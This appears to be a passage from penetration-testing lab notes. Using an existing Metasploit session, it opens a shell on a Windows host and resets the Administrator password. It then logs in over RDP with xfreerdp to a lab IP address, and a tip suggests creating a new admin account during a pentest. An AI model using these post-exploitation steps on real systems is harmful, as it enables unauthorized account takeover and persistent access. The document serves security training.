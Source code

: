 ```bash
3389/tcp open  ms-wbt-server
```

- To access RDP, login credentials are necessary

```bash
sessions
sessions 1
shell
net users
	Administrator Guest
```

- Change the `Administrator` user's password (no recommended in a real-world system)


> 📌 *During a standard Pentest, create another user account, add it to the Administrators group and utilize that one.*

```bash
net user administrator p4ssword_12344321
exit
```

Legitimate credentials are now: `administrator`:`p4ssword_12344321`

- In a new Terminal TAB

```bash
xfreerdp /u:administrator /p:p4ssword_12344321 /v:10.2.21.205
```

![xfreerdp](.gitbook/assets/image-20230419230109945.png)
